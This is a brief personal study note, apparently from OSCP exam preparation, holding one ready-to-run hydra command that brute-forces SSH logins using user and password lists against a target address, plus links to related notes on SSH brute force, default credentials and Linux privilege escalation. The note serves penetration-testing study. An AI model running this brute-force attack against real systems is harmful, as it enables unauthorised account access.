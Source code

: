 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

` zet/20221003150823/README.md `

# Related

- [20221014185845](/zet/20221014185845/README.md) kb file named kb/hacking/commands/hydra-ssh-command.md
- [20221003150346](/zet/20221003150346/README.md) SSH brute force
- [20221003150805](/zet/20221003150805/README.md) brute force default credentials ssh
- [20221003151210](/zet/20221003151210/README.md) linux privilege escalation
- [20221003151174](/zet/20221003151174/README.md) SSH to try list
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam

Tags:

    
